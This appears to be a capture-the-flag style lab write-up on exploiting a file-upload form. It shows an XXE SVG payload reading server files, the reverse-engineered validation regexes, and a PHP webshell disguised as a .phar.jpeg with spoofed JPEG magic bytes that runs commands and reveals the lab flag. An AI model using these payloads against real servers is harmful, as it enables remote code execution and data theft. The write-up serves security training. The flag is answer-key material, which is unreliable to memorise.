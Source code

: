 ﻿You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


![Pasted image 20250206180714.png](../../../IMAGES/Pasted%20image%2020250206180714.png)

Let's take a look at the site:

![Pasted image 20250206180859.png](../../../IMAGES/Pasted%20image%2020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![Pasted image 20250206181239.png](../../../IMAGES/Pasted%20image%2020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![Pasted image 20250206182157.png](../../../IMAGES/Pasted%20image%2020250206182157.png)

We can `Do Intercept -> Response to this request`:

![Pasted image 20250206182227.png](../../../IMAGES/Pasted%20image%2020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![Pasted image 20250206182356.png](../../../IMAGES/Pasted%20image%2020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

## SVG XML Upload
---


We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![Pasted image 20250206183458.png](../../../IMAGES/Pasted%20image%2020250206183458.png)

If we decode the contents of it:

![Pasted image 20250206183516.png](../../../IMAGES/Pasted%20image%2020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:


```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
 echo "Extension not allowed";
 die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
 echo "Only images are allowed";
 die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
 if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
 echo "Only images are allowed";
 die();
 }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
 echo "File too large";
 die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
 displayHTMLImage($target_file);
} else {
 echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: Blocks`.php`,`.phps`,`.phtml`.
 
- **Whitelist Regex**: Requires the filename to end with`.[2-3 letters]g` (e.g.,`.jpg`,`.svg`).
- **MIME/Content-Type Check**: Must be`image/[a-z]{2,3}g` (e.g.,`image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![Pasted image 20250206184336.png](../../../IMAGES/Pasted%20image%2020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.



With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```


Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![Pasted image 20250206185029.png](../../../IMAGES/Pasted%20image%2020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![Pasted image 20250206185110.png](../../../IMAGES/Pasted%20image%2020250206185110.png)

Nice, now let's try uploading the file:

![Pasted image 20250206185201.png](../../../IMAGES/Pasted%20image%2020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![Pasted image 20250206185927.png](../../../IMAGES/Pasted%20image%2020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![Pasted image 20250206190133.png](../../../IMAGES/Pasted%20image%2020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```


![Pasted image 20250206190210.png](../../../IMAGES/Pasted%20image%2020250206190210.png)

